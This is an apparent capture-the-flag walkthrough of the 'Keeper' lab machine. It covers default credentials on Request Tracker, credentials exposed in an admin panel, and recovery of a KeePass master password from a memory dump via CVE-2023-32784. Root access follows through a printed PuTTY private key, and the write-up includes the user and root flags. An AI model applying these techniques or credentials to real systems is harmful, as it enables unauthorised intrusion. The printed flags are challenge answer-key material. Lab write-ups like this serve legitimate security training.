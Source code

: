 # Keeper

## Recon

nmap scan reveals port 22 and 80 are open 

Visit site IP

link:  To raise an IT support ticket, please visit tickets.keeper.htb/rt/ 

edit /etc/hosts to include domain

```
vim /etc/hosts
```

add `<machine ip> keeper.htb tickets.keeper.htb` and write-quit

follow link to login page where we get some additional info

Best Practical Request Tracker

»|« RT 4.4.4+dfsg-2ubuntu1 (Debian) Copyright 1996-2019 Best Practical Solutions, LLC.

Distributed under version 2 of the GNU GPL.
To inquire about support, training, custom development or licensing, please contact sales@bestpractical.com.

Can we find any docs on Best Practical Request Tracker? Yes!

Including default credentials of root:password; don't suppose those will work?

We're logged in!

There appears to be a ticket in the general queue with an ID of 300000 referencing an issue with a windows keepass client

Checking out the only ticket it sounds like a Keepass database and crashdump were sent as part of a ticket. Lise Norgaard downloaded the data to their system and removed the attachment from the ticketing system for security purposes.

Upon further searching we also find credentials for lnorgaard in the admin>users panel

Also note Lise's native language is Danish

```
lnorgaard:Welcome2023!
```

Which also happen to allow login to the system over SSH

```
ssh lnorgaard@keeper.htb

cat user.txt

6f2bf1834e98c501441c1f05efbe1e8e
```

There's also a zip archive called RT30000 in the home directory

```
unzip RT30000.zip

ls

KeePassDumpFull.dmp  passcodes.kdbx  RT30000.zip  user.txt
```

It's the aforementioned KeePass dump and the kdbx too!

Time to crack the kdbx password! It's probably safe to infer that we are to extract the password from the .dmp file per CVE-2023-32784

you can get vdohney's keepass-password-dumper and install .NET 7.0 if necessary or grab the python-based implementation at https://github.com/matro7sh/keepass-dump-masterkey

```
python3 -m poc KeePassDumpFull.dmp

Possible password: ●,dgr●d med fl●de
Possible password: ●ldgr●d med fl●de
Possible password: ●`dgr●d med fl●de
Possible password: ●-dgr●d med fl●de
Possible password: ●'dgr●d med fl●de
Possible password: ●]dgr●d med fl●de
Possible password: ●Adgr●d med fl●de
Possible password: ●Idgr●d med fl●de
Possible password: ●:dgr●d med fl●de
Possible password: ●=dgr●d med fl●de
Possible password: ●_dgr●d med fl●de
Possible password: ●cdgr●d med fl●de
Possible password: ●Mdgr●d med fl●de
```

Remember that Lise's native language is danish? `med fløde` in english translates to "with creme". A quick google of "danish drink with creme" reveals `rødgrød med fløde`...looks and sounds good.

Now we can open passcodes.kdbx and have a peek inside.
We find the root password and a putty ssh key in the Network tab along with the ticketing creds we found earlier

```
root:F4><3K0nd!
```

```
PuTTY-User-Key-File-3: ssh-rsa
Encryption: none
Comment: rsa-key-20230519
Public-Lines: 6
AAAAB3NzaC1yc2EAAAADAQABAAABAQCnVqse/hMswGBRQsPsC/EwyxJvc8Wpul/D
8riCZV30ZbfEF09z0PNUn4DisesKB4x1KtqH0l8vPtRRiEzsBbn+mCpBLHBQ+81T
EHTc3ChyRYxk899PKSSqKDxUTZeFJ4FBAXqIxoJdpLHIMvh7ZyJNAy34lfcFC+LM
Cj/c6tQa2IaFfqcVJ+2bnR6UrUVRB4thmJca29JAq2p9BkdDGsiH8F8eanIBA1Tu
FVbUt2CenSUPDUAw7wIL56qC28w6q/qhm2LGOxXup6+LOjxGNNtA2zJ38P1FTfZQ
LxFVTWUKT8u8junnLk0kfnM4+bJ8g7MXLqbrtsgr5ywF6Ccxs0Et
Private-Lines: 14
AAABAQCB0dgBvETt8/UFNdG/X2hnXTPZKSzQxxkicDw6VR+1ye/t/dOS2yjbnr6j
oDni1wZdo7hTpJ5ZjdmzwxVCChNIc45cb3hXK3IYHe07psTuGgyYCSZWSGn8ZCih
kmyZTZOV9eq1D6P1uB6AXSKuwc03h97zOoyf6p+xgcYXwkp44/otK4ScF2hEputY
f7n24kvL0WlBQThsiLkKcz3/Cz7BdCkn+Lvf8iyA6VF0p14cFTM9Lsd7t/plLJzT
VkCew1DZuYnYOGQxHYW6WQ4V6rCwpsMSMLD450XJ4zfGLN8aw5KO1/TccbTgWivz
UXjcCAviPpmSXB19UG8JlTpgORyhAAAAgQD2kfhSA+/ASrc04ZIVagCge1Qq8iWs
OxG8eoCMW8DhhbvL6YKAfEvj3xeahXexlVwUOcDXO7Ti0QSV2sUw7E71cvl/ExGz
in6qyp3R4yAaV7PiMtLTgBkqs4AA3rcJZpJb01AZB8TBK91QIZGOswi3/uYrIZ1r
SsGN1FbK/meH9QAAAIEArbz8aWansqPtE+6Ye8Nq3G2R1PYhp5yXpxiE89L87NIV
09ygQ7Aec+C24TOykiwyPaOBlmMe+Nyaxss/gc7o9TnHNPFJ5iRyiXagT4E2WEEa
xHhv1PDdSrE8tB9V8ox1kxBrxAvYIZgceHRFrwPrF823PeNWLC2BNwEId0G76VkA
AACAVWJoksugJOovtA27Bamd7NRPvIa4dsMaQeXckVh19/TF8oZMDuJoiGyq6faD
AF9Z7Oehlo1Qt7oqGr8cVLbOT8aLqqbcax9nSKE67n7I5zrfoGynLzYkd3cETnGy
NNkjMjrocfmxfkvuJ7smEFMg7ZywW7CBWKGozgz67tKz9Is=
Private-MAC: b0a0fd2edf4f0e557200121aa673732c9e76750739db05adc3ab65ec34c55cb0
```

Copy the key and paste it into a file called root.ppk or something similar

Open Putty and import the identity key

Connection > SSH > Auth > Credentials > Browse to add Private Key file under Public Key Authentication

Configure the user as root and add the machine IP and voila!

```
cat root.txt

d8f62605362ac28ec2fefa443ea0f2c3
```


